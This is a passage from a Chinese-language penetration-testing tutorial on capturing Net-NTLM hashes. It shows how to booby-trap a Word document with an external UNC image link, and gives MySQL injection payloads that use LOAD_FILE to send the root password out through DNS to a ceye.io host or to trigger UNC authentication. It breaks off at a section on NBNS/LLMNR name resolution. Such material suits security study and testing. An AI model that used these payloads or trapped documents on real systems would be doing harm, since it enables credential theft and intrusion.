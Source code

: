 ## 0x06 office

首先新建一个word，贴近一张图片

![image-20191121182534202](https://p1.ssl.qhimg.com/t0177a0ec884d7c213f.png)

然后用7zip 打开\(没测试其他软件，可自行测试\)

进入word\\_rels，修改document.xml.rels

![image-20191121182941462](https://p3.ssl.qhimg.com/t01b3ac738eafbe3ef8.png)

可以看到Target参数本来是本地的路径

![image-20191121182705648](https://p3.ssl.qhimg.com/t014b72910273a063aa.png)

修改为UNC路径，然后加上`TargetMode="External"`

![image-20191121183030427](https://p4.ssl.qhimg.com/t0122905cebda3dbc40.png)

当打开word的时候,我们就拿到net-ntlm hash

![image-20191121183321169](https://p0.ssl.qhimg.com/t016a7347543991009d.png)

## 0x07 MySQL

我们知道在MySQL注入的话，是可以通过带外通信把数据带出来。语法如下。

```text
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

需要具备load\_file权限，且没有secure\_file\_priv的限制\(5.5.53默认是空，之后的话默认为NULL就不好利用了,不排除一些管理员会改\)

仔细观察我们会发现LOAD\_FILE是支持UNC路劲

我们构造

```sql
select load_file('\\\\172.16.100.1\\mysql');
```

拿到net-ntlm hash

![image-20191120203418305](https://p5.ssl.qhimg.com/t0171522a2d96fbcc32.png)

## 0x08 NBNS和LLMNR

windows 解析域名的顺序是

* Hosts
* DNS \(cache / server\) 
* LLMNR
* NBNS 
